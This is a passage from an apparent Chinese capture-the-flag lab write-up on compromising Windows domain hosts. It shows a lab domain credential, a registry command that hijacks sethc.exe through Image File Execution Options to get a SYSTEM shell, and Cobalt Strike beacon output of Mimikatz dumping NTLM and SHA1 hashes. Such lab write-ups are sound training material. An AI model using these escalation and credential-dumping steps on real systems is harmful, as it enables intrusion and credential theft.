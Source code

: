 ![image-20230730170037549](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301700602.png)

![image-20230730170100304](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301701350.png)

credential.txt

```
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

一眼 IFEO 劫持

域用户 RDP 连过去提示密码已过期

![image-20230730171849407](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301718470.png)

修改密码后再次登录 `172.22.8.31` 提示登录失败, 因为不在 Remote Desktop Users 用户组内

![image-20230730171953938](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301719007.png)

172.22.8.46 登录成功

![image-20230730172942169](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301729236.png)

但只有普通用户权限, 需要提权

根据上文的提示, 猜测能够直接修改注册表进行 IFEO 劫持

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe"
```

开始菜单锁定用户, 然后连按五次 shift

![image-20230730174036811](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301740869.png)

flag02 在 Administrator 家目录下

![image-20230730174159621](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301741677.png)

## flag03

logonpasswords

```shell
beacon> logonpasswords
[*] Tasked beacon to run Mimikatz inject pid:1928
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command into 1928 (x64)
[+] host called home, sent: 297602 bytes
[+] received output:

Authentication Id : 0 ; 15467382 (00000000:00ec0376)
Session           : RemoteInteractive from 2
User Name         : Aldrich
Domain            : XIAORANG
Logon Server      : DC01
Logon Time        : 2023/7/30 17:28:43
SID               : S-1-5-21-3289074908-3315245560-3429321632-1105
	msv :	
	 [00000003] Primary
	 * Username : Aldrich
	 * Domain   : XIAORANG
	 * NTLM     : e19ccf75ee54e06b06a5907af13cef42
	 * SHA1     : 9131834cf4378828626b1beccaa5dea2c46f9b63
	 * DPAPI    : a3f0e6622289e7951e9a12b27368cda5
```